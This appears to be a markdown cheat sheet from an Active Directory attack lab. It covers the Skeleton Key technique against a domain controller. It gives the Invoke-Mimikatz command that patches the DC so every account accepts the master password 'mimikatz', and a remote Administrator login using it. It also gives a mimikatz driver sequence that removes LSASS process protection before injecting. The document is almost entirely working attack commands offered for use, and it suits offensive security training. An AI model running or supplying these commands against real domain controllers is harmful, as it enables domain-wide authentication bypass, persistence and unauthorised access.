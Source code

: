 # Skeleton Key
## Invoke-Mimikatz
### Use the below command to inject a skeleton-Key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
```ad-note
Skeleton Key password is : **mimikatz**
```

### Now we can access any machine with valid username and password as mimikatz
```powershell
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```

### LSASS running as a protected process
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```